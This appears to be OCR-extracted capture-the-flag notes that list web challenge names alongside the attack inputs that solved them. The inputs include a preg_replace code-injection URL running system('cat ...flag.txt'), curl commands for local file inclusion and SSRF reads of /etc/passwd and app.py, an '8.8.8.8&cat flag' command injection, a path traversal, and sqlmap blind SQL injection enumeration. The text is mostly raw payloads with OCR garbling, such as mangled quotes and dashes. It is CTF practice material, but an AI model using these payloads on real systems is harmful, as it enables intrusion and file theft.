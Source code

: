 http://35.246.227.46:31872/index.php?vector=/Admin/e&replace=system(%22cat%20here_we_dont_have_flag/flag.txt%22)  Substitute


Curl –x ‘POST’ ‘http://IP/?start=’ –data ‘start=flag.php’ Alien-inclusion



File:/etc/passwd      File:/home/ctf/app.py

curl -X POST -H "Host: company.tld" --data "url=file:home/ctf/app.py" "http://34.141.113.155:32567/"              LFI  Ultra-Crawler

8.8.8.8&cat flag   ping-station


/local?image_name=..//..//..//tmp/flag                     File-crawler


curl ‘http://34.159.53.91:32713/?start=’ –data ‘start=flag.php’    PHP.start


sqlmap –u ‘http://35.246.227.46:30432/user?id=’ --random-agent --time-sec=2 –dbs

sqlmap –u ‘http://34.159.127.208:32694/user?id=’ --random-agent --time-sec=2 –D public --tables 

sqlmap –u ‘http://34.159.127.208:32694/user?id=’ --random-agent --time-sec=2 –D public –T ctf{23143 –columns          small-data-leak
